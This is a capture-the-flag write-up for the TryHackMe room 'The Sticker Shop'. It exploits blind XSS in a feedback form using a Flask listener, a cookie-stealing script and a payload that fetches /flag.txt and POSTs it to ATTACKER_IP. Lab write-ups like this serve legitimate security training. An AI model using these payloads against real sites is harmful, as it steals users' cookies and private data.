 ```yaml
---
layout: default
title: The Sticker Shop THM - Write up
---
```


# The Sticker Shop THM - Write up (Easy)

## Description
Can you read the flag at http://10.10.102.26:8080/flag.txt?

[Room Link](https://tryhackme.com/r/room/thestickershop)

## Accessing http://10.10.102.26:8080
There is home page and one feedback page.

![image](https://github.com/user-attachments/assets/b9cfa04d-081c-4b59-8fef-717107a3bba8)

most likely we have to put our payload on the feedback page.

## Trying to access http://10.10.102.26:8080/flag.txt
![flag.txt](https://github.com/user-attachments/assets/9d160fb6-df50-41bd-8cc2-adebbaf590d0)

it returns "401 Unauthorized".

## Trying XSS
Common Reflected XSS playloads didnt work for me in the feedback page. so I accessed the hint which says "Can you conduct any client-side exploitation in order to read the flag?". 
I became certain that there is XSS in the page. I tried for blind XSS.

### Creating a server
I Created a simple server using flask.

![image](https://github.com/user-attachments/assets/b51c2017-5a94-424b-be59-5e132a634a54)

Code: 
```
from flask import Flask, request

app = Flask(__name__)

@app.route('/', methods=['POST'])
def capture_flag():
    data = request.data.decode('utf-8')
    print(f"Received data: {data}")
    return 'Data received!', 200

if __name__ == '__main__':
    app.run(host='ATTACKER_IP', port=8000)
```
### Running the server
![image](https://github.com/user-attachments/assets/84e46136-cae4-4683-91e4-4078c506cb07)

### Putting the payload
![image](https://github.com/user-attachments/assets/c841d029-aa28-4c46-84fc-7a22251ead9a)

payload:
```
<script>document.location='http://ATTACKER_IP:8000/xss?cookie=' + document.cookie</script>
```
Enter the payload and click submit.

### Output
![image](https://github.com/user-attachments/assets/f1780783-0d26-4fbb-8d0e-ae540c56086f)

The paylaod works, the website doesnt use cookies so theres no cookie showing.

## Getting the flag

### Putting the payload
![image](https://github.com/user-attachments/assets/051da70d-5c1a-4434-bc7e-46843c5c6e6c)

payload for the flag:
```
<script>
    fetch('/flag.txt')
        .then(res => res.text())
        .then(flag => fetch('http://ATTACKER_IP:8000', {method: 'POST', body: flag}));
</script>
```
click submit.

### output
![image](https://github.com/user-attachments/assets/43386fd9-82d9-4abf-8e81-105357d232e9)

got the flag.









